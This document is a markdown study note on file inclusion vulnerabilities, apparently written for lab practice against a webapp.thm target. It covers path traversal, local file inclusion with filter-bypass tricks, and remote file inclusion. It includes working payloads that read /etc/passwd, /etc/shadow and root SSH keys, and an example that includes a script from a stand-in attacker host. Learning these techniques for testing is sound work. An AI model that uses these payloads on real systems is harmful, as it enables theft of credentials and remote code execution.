 ```yaml
---
title: File Inclusion
sidebar_position: 3
description: File inclusion vulnerability notes.
---
```


## Introduction
- Web application request access to files on a given system, including images, static text, and so on via parameters.
- File inclusion vulnerabilities happen when these inputs are not properly sanitized.
- For example: `http://webapp.thm/get.php?file=userCV.pdf`

## Path Traversal
- Also known as **Directory traversal**, a web security vulnerability allows an attacker to read operating system resources, such as local files on the server running an application.
- The user input is passed to functions such as `file_get_contents` in PHP.
- When the user input is not properly validated, the attacker can pass something like below to access resources outside the website root.
    ```
    http://webapp.thm/get.php?file=../../../../etc/passwd
    ```
- Depending on the os version, the attacker can also do one of the following
    ```
    http://webapp.thm/get.php?file=../../../../boot.ini
    ```
    ```
    http://webapp.thm/get.php?file=../../../../windows/win.ini
    ```
- Below are some common OS files you could use when testing.
  - `/etc/issue` - Contains a message or system identification to be printed before the login prompt.
  - `/etc/profile` - Controls system-wide default variables.
  - `/proc/version` - Specifies the version of the Linux kernel.
  - `/etc/passwd` - Has all registered users that have access to a system.
  - `/etc/shadow` - Contains information about the system's users' passwords.
  - `/root/.bash_history` - Contains the history commands for root user.
  - `/var/log/dmessage` - Contains global system messages.
  - `/var/mail/root` - All emails for root user.
  - `/root/.ssh/id_rsa` - Private SSH keys for a root or any known valid user on the server.
  - `/var/log/apache2/access.log` - The accessed requests for Apache web server.
  - `C:\boot.ini` - Contains the boot options for computers with BIOS firmware.

## Local File Inclusion (LFI)
- The functions `include`, `require`, `include_once`, and `require_once` often contribute to LFI in PHP.
- LFI can also occcur in other languages such as ASP, JSP and even on Node js.
- Language is fetched with `http://webapp.thm/index.php?lang=EN.php` using include method.

### Simple LFI:
- Language is fetched with include method.
      ```php
      <?PHP 
  	include($_GET["lang"]);
      ?>
      ```
- **Exploit**: `http://webapp.thm/get.php?lang=/etc/passwd`

### LFI with Folder
  - Language is fetched from a file inside a specific folder.
      ```php
      <?PHP 
          include("languages/". $_GET['lang']); 
      ?>
      ```
- **Exploit**: `http://webapp.thm/index.php?lang=../../../../etc/passwd`.

### LFI with Folder and File Extension
- Language is fetched from a file with extension.
- For example: If we pass `lang=EN` it would be converted to `EN.php`.
- **Exploit**: Add null byte (`%00`) at the end to terminate the remaining string. `http://webapp.thm/index.php?lang=../../../..//etc/passwd%00`.
- Note: Enter the exploit directly into the address bar instead of the form which might encode the payload.
- Note: Null byte `%00` trick is fixed and not working with `PHP 5.3.4` and above.

### LFI with Keyword filter
- Files with sensitive information such as `/etc/passwd` are filtered.
- **Exploit**: 
  - Null byte trick `http://webapp.thm/index.php?lang=../../../../etc/passwd%00`.
  - Current directory trick `http://webapp.thm/index.php?lang=../../../../etc/passwd/.`.

### LFI with Path Traversal Filter
- The path traversal characters `../` is replaced with an empty string.
- **Exploit**: Duplicate the characters like `http://webapp.thm/index.php?lang=....//....//....//....//etc//passwd`.


### LFI with Defined Directory
- The path is forced to include a specific directory
- **Exploit**: Add the folder at the start of the path: `http://webapp.thm/index.php?lang=languages/../../../../etc/passwd`

## Remote File Inclusion (RFI)
- Remote File Inclusion (RFI) is a technique to include remote files into a vulnerable application.
- One requirement for RFI is that the `allow_url_fopen` option needs to be `on`.
- Risk of RFI is higher than LFI as RFIs enable attacker to gain Remote Command Execution (RCE)
- An external server must communicate with the application server for a successful RFI attack where the attacker hosts malicious files on their server.
- Then the malicious file is injected into the include function via HTTP requests, and the content of the malicious file executes on the vulnerable application server.
- Example: `http://webapp.thm/index.php?lang=http://attacker.thm/cmd.txt`.


## Steps for testing for LFI
  - Find an entry point that could be via **GET, POST, COOKIE, or HTTP** header values!
  - Enter a valid input to see how the web server behaves.
  - Enter invalid inputs, including special characters and common file names.
  - Don't always trust what you supply in input forms is what you intended! Use either a browser address bar or a tool such as Burpsuite.
  - Look for errors while entering invalid input to disclose the current path of the web application; if there are no errors, then trial and error might be your best option.
  - Understand the input validation and if there are any filters!
  - Try the inject a valid entry to read sensitive files.

